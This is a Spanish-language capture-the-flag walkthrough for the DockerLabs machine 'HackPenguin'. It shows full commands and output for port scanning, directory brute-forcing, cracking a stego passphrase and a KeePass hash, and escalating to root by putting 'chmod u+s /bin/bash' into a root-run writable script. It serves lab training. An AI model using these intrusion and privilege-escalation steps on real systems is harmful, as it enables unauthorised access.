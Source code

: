 ```yaml
---
title: DockerLabs Writeup HackPenguin
published: True
---
```

----------------------------
![Logo](../assets/images-HackPenguin/Logo.png)

------------------
HackPenguin, es una maquina Linux de dificultad Medio de la plataforma DockerLabs, donde se puede practicar Estenografía, crack de hash y escalada de privilegios mediante un script de bash.

--------------------------------
# [](#header-1)Reconocimiento
Comenzando con nmap para descubrir los puertos abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 17:28 -03
Initiating ARP Ping Scan at 17:28
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 17:28, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:28
Scanning 10.88.0.2 [65535 ports]
Discovered open port 80/tcp on 10.88.0.2
Discovered open port 22/tcp on 10.88.0.2
Completed SYN Stealth Scan at 17:28, 0.80s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-08-01 17:28:39 -03 for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 76:17:5E:C1:9F:DF (Unknown)
```
Vemos que tenemos el puerto 22 y el 80, haremos un escaneo mas exhaustivo para ver que tenemos en estos dos puertos
```bash
❯ nmap -p22,80 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 17:33 -03
Nmap scan report for 10.88.0.2
Host is up (0.000071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
|_  256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 76:17:5E:C1:9F:DF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.82 seconds
```
Veremos que nos reporta whatweb respecto a las tecnologías que corren por detrás de la pagina web 
```bash
❯ whatweb http://10.88.0.2
http://10.88.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.88.0.2], Title[Apache2 Ubuntu Default Page: It works]
```
Vemos un defalut page de Apache2 iremos a comprobar esto, efectivamente tenemos la pagina por defecto de Apache

![Pagina Apache](../assets/images-HackPenguin/Hackpenguin1.png)

Utilizaremos  `gobuster` para descubrir directorio o archivo existentes , vemos que con extensiones de archivos nos descubre penguin.htm y index.html
```bash
❯ gobuster dir -u http://10.88.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,backup,zip,.back
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.88.0.2
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,backup,zip,back
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10671]
/.html                (Status: 403) [Size: 274]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 274]
Progress: 334960 / 1323360 (25.31%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 339902 / 1323360 (25.68%)
```
No vemos mas que una imagen de pingüinos, por lo tanto descargamos la imagen y ver si esconde algo.

![Pinguino](../assets/images-HackPenguin/HackPenguin2.png)

le pasamos `steghide` para extraer los datos, pero como nos pide una contraseña lo intentaremos crackear con `stegseek`
```bash
steghide extract -sf penguin.jpg
Anotar salvoconducto: 
steghide: no pude extraer ningn dato con ese salvoconducto!
```
Vemos que conseguimos la contraseña para poder ver lo que esta escondiendo por detrás de esta imagen
```bash
❯ stegseek --crack penguin.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"

[i] Original filename: "penguin.kdbx".
[i] Extracting to "penguin.jpg.out".
```
Vemos que por destras habia un archivo con extension `kdbx` y la passphrase era `chocolate`. Si probamos esa pass en `keepassxc` veremos que nos da error, por lo tanto intentaremos crackear la contraseña del archivo `KeePass`.
Una vez tenemos el hash podemos intentar crackearlo con john
```bash
❯ keepass2john penguin.kdbx > hash
```
Conseguimos la contraseña por lo que ahora nos vamos a dirigir a keepassxc
 ```bash
 ❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (penguin)     
1g 0:00:00:00 DONE (2024-08-01 18:54) 4.347g/s 139.1p/s 139.1c/s 139.1C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Abrimos keepassxc pasandole el archivo `penguin.kdbx`

![KeePass](../assets/images-HackPenguin/Hackpenguin3.png)

Ahora con esta contraseña intentaremos conectarnos por SSH
```bash
❯ ssh penguin@10.88.0.2
Last login: Sun Apr 14 08:24:53 2024 from 172.17.0.1
$ whoami
penguin
penguin@b946ad863458:~$ hostname -I
10.88.0.2 
```
Ahora toca escalar Privilegios

------------
## [](#header-2)Privilege Escalation
En un principimos, no tenemos privilegios SUID, no pertenecemos a ningun grupo especial o tenemos permisos SUID, lo que si encontramos es un `script.sh` que le pertenece a `root` pero se encuentra en nuestro directorio personal y vemos que lo podemos ejecutar, leer y modificar.
```bash
penguin@b946ad863458:~$ ls
archivo.txt  script.sh
penguin@b946ad863458:~$ ls -la
total 4
drwxrwxrwx 1 root    root        34 Aug  1 22:12 .
drwxr-xr-x 1 root    root        22 Apr 15 07:22 ..
drwx------ 1 penguin hackpenguin 40 Aug  1 22:12 .cache
-rwxrwxrwx 1 root    root         0 Aug  1 22:17 archivo.txt
-rwxrwxrwx 1 root    root        56 Apr 15 07:26 script.sh
```
si vemos los procesos que se están ejecutando vemos que root esta ejecutando el script.sh

![procesos](../assets/images-HackPenguin/Hackpenguin4.png)

Por lo tanto vamos a cambiar el contenido de este script y cambiarlo asi root cuando ejecute el script nos cambia los permisos de la bash, primero vemos que permisos tiene la bash
```bash
penguin@b946ad863458:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
En el script introducimos lo siguiente
```bash
#!/bin/bash

chmod u+s /bin/bash
echo 'pinguino no hackeable' > archivo.txt
```
Ahora si vemos los permisos de la bash vermos que cambio SUID
```bash
penguin@b946ad863458:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
Ahora solo hacemos `bash -p(privilege)` y veremos que nos otorga una bash como root
```bash
penguin@b946ad863458:~$ bash -p
bash-5.1# whoami
root
```



